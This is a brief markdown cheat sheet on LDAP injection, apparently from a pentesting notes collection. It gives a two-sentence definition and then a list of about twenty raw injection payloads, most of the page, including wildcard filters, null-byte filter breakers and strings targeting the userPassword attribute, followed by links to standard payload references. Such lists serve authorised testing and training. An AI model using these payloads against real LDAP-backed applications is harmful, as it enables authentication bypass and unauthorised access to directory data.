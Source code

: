 # LDAP Injection

LDAP Injection is a type of security vulnerability that can occur in web applications that use Lightweight Directory Access Protocol (LDAP) for authentication and/or authorization. It is a form of injection attack similar to SQL injection, but instead of targeting a database, it targets an LDAP server.

### Payloads

```
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```



### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/ldap-injection" %}

{% embed url="https://portswigger.net/kb/issues/00100500_ldap-injection" %}
